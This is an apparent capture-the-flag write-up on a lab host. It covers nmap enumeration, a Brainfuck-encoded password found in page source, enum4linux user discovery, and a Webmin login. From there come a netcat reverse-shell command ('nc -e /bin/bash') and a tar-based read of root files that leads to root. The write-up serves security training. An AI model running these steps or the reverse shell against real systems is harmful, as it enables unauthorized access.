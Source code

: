 first enumeration with nmap

```shell
# Nmap 7.94 scan initiated Sat Aug 26 16:57:19 2023 as: nmap -p- --min-rate 1000 -oN fulltcp.txt -v -Pn 192.168.224.238
Nmap scan report for 192.168.224.238
Host is up (0.14s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
10000/tcp open  snet-sensor-mgmt
20000/tcp open  dnp

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Aug 26 16:58:40 2023 -- 1 IP address (1 host up) scanned in 81.77 seconds
```
first run full port scan to know what ports are open, let's run nmap default script to know what services are running on those port.

```shell
# Nmap 7.94 scan initiated Sat Aug 26 17:01:43 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 80,139,445,10000,20000 -Pn 192.168.224.238
Nmap scan report for 192.168.224.238
Host is up (0.22s latency).

PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.51 (Debian)
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-server-header: MiniServ/1.981
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-server-header: MiniServ/1.830
|_http-title: 200 &mdash; Document follows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-08-26T16:01:57
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 26 17:02:28 2023 -- 1 IP address (1 host up) scanned in 45.39 seconds
```
cool we now know what services are running on those ports. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/9245b006-23fa-4d0d-a8be-0ab7dd83d64b)

Noticed a web server running on port 80, opening it on a browser, we got a default apache webpage. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/2b292a80-7345-4800-802b-9d03a653e7c8)

checking the source code, we can see a text encoded in brainfuck encryption.

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
```
let's decode it 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/bb49abe6-0a9c-4949-9412-05621e589d17)

decoded the text using [decode](https://www.dcode.fr/brainfuck-language). we got `.2uqPEfj3D<P'a-3`. let's enumerate further. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ef6290c5-6d83-4a4e-adfc-977c1a084617)

noticed another web server on port `10000` opening it on a browser, we got redirected to a webmin login page, remember we got a potential password earlier, tried to login admin and using the decoded text as password, it failed.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/31f08e59-b981-4981-8ccc-6b4b63cb08e9)

another webmin server is running on port `20000` tried to login using the same creds as earlier, failed. 🤔 let's enumerate harder. let shoot `enum4linux` to get available users so as to do a username enumeration on the login page.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7605fb0f-3a76-4d09-ac91-1f707b5bc850)

running `enum4linux -a $IP` we got to see a unix user `cyber`. let's try to login the webmin server using this username and the potential password from earlier.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a51d6dbe-d6a6-4bab-b102-2f39502a0418)

Bankai!!! 🔥 we are able to login to the webmin server on port `20000` using cred `cyber:.2uqPEfj3D<P'a-3`. let's play around and find a way to get shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a5ca8b68-84db-4d84-8b35-547d1f326b16)

clicking on the terminal button, we got into a terminal we can run shell commands on. let's spawn a reverse shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1faffc8d-b063-474f-8fc4-dee4e356b23f)

spawned a reverse shell using `/bin/nc -e /bin/bash $IP $port`


## Privilege Escalation


![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/fdd897c7-bfda-4772-8c2d-26b446b6a0cf)

In the home directory of user `cyber` we can see a binary `tar`. 🤔 it is not an suid, let's see what we can do with this. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c77c0f4d-0e6c-4f0b-99e7-0c22aced217b)

checking gtfobins, we can see that we can read files. 🤔 hmmmmmm

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ccd8a067-5d82-47f7-9c43-bd8059e3232c)

we could read root files without being root using this binary. 🤔 let's try read root `.bash_history` file and see if we can loot anything.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5ee559d4-51e9-436a-b0ab-38e8dfe14f58)

There's a file named `.old_pass.bak` and it is only owned by root, let's check it content since we can read root files. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/fbcd7429-d44c-4012-8f79-85369b77b8ac)

checking the content of the file, we got a password, su root using the password and boom we are root.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e4cfbb94-e5af-4214-9f32-26314636866d)

We broke out of the shell 😜 Interesting yeah? 
